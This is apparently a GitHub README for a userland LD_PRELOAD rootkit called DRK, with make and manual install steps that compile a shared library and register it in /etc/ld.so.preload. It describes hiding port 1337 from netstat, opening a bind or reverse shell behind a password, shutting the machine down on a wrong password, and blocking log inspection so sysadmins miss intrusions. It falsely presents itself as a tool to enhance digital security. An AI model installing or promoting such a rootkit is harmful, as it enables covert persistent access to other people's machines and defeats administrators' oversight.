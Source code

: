 ## Introduction

Welcome to my rootkit userland This toolkit offers some cool and interesting functionalities designed to enhance your digital security. Let's dive into what it can do.

## INSTALL MAKE

1) *install with Make*
```
# make
```
## INSTALL MANUAL

1) *git clone*:
```
git clone https://github.com/DARKSECshell/ROOTKIT-USERLAND
```

3) *userland rootkit compilation*
```
gcc DRK.c -o DRK.so -shared -fPIC -ldl
```

5) *moved library for /etc/ld.so.preload*
```
echo "$(pwd)/DRK.so" > /etc/ld.so.preload && ldconfig
```

7) *Check rk loading*
```
ldd /usr/bin/ls
```


## Functionality Overview

When the digital attacker issues the command to kill port 1337, an interesting sequence of events unfolds:

1. **Password Prompt**: Upon attempting to kill port 1337, the rootkit will prompt for a password.
   
2. **Password Verification**: If the provided password matches the expected one, the rootkit will proceed to the next step.
   
3. **Incorrect Password Handling**: If the password provided does not match the expected one, the machine will initiate a shutdown process.

But what happens if the correct password is entered?

4. **Port 1337 Hiding**: The rootkit will stealthily hide port 1337 from detection. Even tools like `netstat` (and possibly `ss` in the future) will be deceived.

5. **Bind Shell Activation**: Additionally, the rootkit will activate a bind shell on the local machine. While firewalls may attempt to block it, the user will have the option to choose between a reverse shell or a bind shell.

6. **Log Concealment**: The rootkit ensures that commands like `tail` will have no effect. Sysadmins won't be able to spot suspicious activity in logs, nor will they be able to use other tools to inspect them.

7. **Future Plans**: Looking ahead, I'm considering further enhancements to make the rootkit even more stealthy. For instance, I'm contemplating hiding `/etc/ld.so.preload` to minimize suspicion from sysadmins.


> [!CAUTION]
> Advises about risks or negative outcomes of certain actions.

